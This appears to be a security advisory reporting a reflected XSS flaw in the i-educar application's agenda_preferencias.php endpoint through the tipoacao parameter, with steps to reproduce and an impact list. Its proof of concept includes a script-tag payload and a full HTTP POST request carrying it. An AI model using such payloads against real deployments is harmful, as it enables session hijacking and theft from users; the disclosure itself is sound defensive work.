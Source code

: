 Cross-Site Scripting (XSS) Reflected endpoint `agenda_preferencias.php` parameter `tipoacao`

---

## Summary

A Reflected Cross-Site Scripting (XSS) vulnerability was identified in the `agenda_preferencias.php` endpoint of the _i-educar_ application. This vulnerability allows attackers to inject malicious scripts into the `tipoacao` parameter. The payload is reflected in the application’s HTTP response without proper sanitization, leading to immediate execution in the victim’s browser.

---

## Details

**Vulnerable Endpoint:** `GET /agenda_preferencias.php`  
**Parameter:** `tipoacao`

The application fails to properly validate and sanitize user input in the `tipoacao` parameter. An attacker can craft a malicious URL containing a JavaScript payload, which is reflected back in the server’s response and executed when a victim accesses the crafted link.

---

## PoC

**Payload:**

`"><script>alert('XSS-PoC')</script>`

### Steps to Reproduce:

1. Log in to the _i-educar_ application.
    
2. Make a request using Caido similar to the one below.

```
POST /intranet/agenda_preferencias.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br, zstd
Content-Type: application/x-www-form-urlencoded
Content-Length: 60
Origin: http://localhost
Connection: keep-alive
Referer: http://localhost/intranet/agenda_preferencias.php
Cookie: [PUT NEW COOKIE]
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i

tipoacao=Editar"><script>alert('XSS-PoC')</script>&cod_agenda=2&envia_alerta=0&agenda_display=2
```

![[Pasted image 20250816233021.png]]

The result:
![[Pasted image 20250816233448.png]]


---

## Impact

Reflected XSS vulnerabilities can lead to severe consequences, including:

- **Session hijacking:** Theft of cookies or authentication tokens
    
- **Credential theft:** Capturing sensitive user credentials via injected scripts
    
- **Malware delivery:** Redirecting victims to malicious downloads or exploit pages
    
- **Phishing attacks:** Displaying deceptive forms or content to steal user data
    
- **Reputation damage:** Exploiting trust between the application and its users
    
- **Client-side manipulation:** Altering the application’s content and behavior dynamically


## Discoverer

[Marcelo Queiroz](www.linkedin.com/in/marceloqueirozjr)

by [CVE-Hunters](https://github.com/Sec-Dojo-Cyber-House/cve-hunters)